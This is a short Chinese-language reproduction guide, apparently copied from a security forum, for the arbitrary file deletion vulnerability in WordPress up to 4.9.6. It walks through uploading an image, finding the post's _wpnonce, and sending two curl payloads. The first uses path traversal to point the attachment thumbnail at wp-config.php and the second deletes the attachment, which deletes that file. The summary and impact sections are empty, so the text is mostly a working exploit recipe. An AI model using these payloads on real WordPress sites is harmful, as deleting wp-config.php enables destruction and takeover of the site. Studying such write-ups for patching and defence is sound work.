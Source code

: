 # Wordpress <= 4.9.6 任意文件删除漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3261](https://www.zhihuifly.com/t/topic/3261)

# Wordpress <= 4.9.6 任意文件删除漏洞

## 一、漏洞简介

利用条件L：需要进入后台

## 二、漏洞影响

## 三、复现过程

### 添加新媒体

访问http://0-sec.org/wp-admin/upload.php，然后上传图片。

![image](img/310d024b0359336a0672d29535ea3914.png)

### 将$ meta ['thumb']设置为我们要删除的文件

#### 单击我们在中上传的图像Step 2，并记住图像的ID。

![image](img/e1d27305d7675aa560ab9a899eaccb10.png)

#### 访问http://0-sec.org/wp-admin/post.php?post=4&action=edit._wpnonce在页面源中查找

![image](img/7cf13de74d450438c06a74e11b87cb25.png)

#### 发送有效载荷：

```
curl -v 'http://0-sec.org/wp-admin/post.php?post=4' -H 'Cookie: ***' -d 'action=editattachment&_wpnonce=***&thumb=../../../../wp-config.php' 
```

![image](img/f8833bcb7b0bcc3a333510c9bfc252da.png)

### 发动攻击

#### 在页面源码中查找 _wpnonce

![image](img/b15ae46cdd5996961cb8b9f185e86107.png)

#### 发送有效载荷

```
curl -v 'http://9c9b.vsplate.me/wp-admin/post.php?post=4' -H 'Cookie: ***' -d 'action=delete&_wpnonce=***' 
```

![image](img/1f7a8beb95ed396dbaa960f4c13abd6a.png)

#### 刷新页面

![image](img/5f5aa846c7590defa4cccac0c4e41089.png)